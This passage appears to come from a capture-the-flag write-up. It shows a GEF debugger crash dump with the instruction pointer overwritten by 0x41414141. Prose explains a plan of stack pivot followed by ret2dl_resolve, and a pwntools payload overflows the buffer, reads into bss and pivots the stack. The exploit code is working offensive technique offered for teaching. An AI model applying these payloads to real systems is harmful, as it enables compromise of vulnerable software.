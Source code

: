 ```gdb 
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xff94dda0│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"    ← $esp
0xff94dda4│+0x0004: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94dda8│+0x0008: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddac│+0x000c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddb0│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddb4│+0x0014: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddb8│+0x0018: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xff94ddbc│+0x001c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "binary1", stopped 0x41414141 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x $esp
0xff94dda0:     0x41414141
gef➤  x $eip
0x41414141:     Cannot access memory at address 0x41414141
```

Here was when the fun stuff started to happen. For the longest time I assumed it was just a simple ROP challenge but the gadgets in the binary were really bad. There were a couple of gadgets that could be used to stack pivot but nothing to pop registers for a syscall and the GOT had no functions to leak. At this point, I realized that the so-called holy grail of ROP must be dl_resolve. We can call read@plt and the lack of PIE allows us to read into bss or data section. First I did a stack pivot to read more data and setup for the dl_resolve.

```python 
fake_stack = exe.bss() + 0xa00
fake_link_map_addr = exe.bss() + 0xa00 + 0x100 +8

payload = flat([ 
    b"A"*(bof_size),
    # read into fake stack
    exe.plt.read,
    # pops read jump values and new ebp
    stack_gad,
    0, fake_stack, 0x400,
    fake_stack,
    # Next RIP,pivot now
    leave_ret,
    ])
p.send(payload)
```
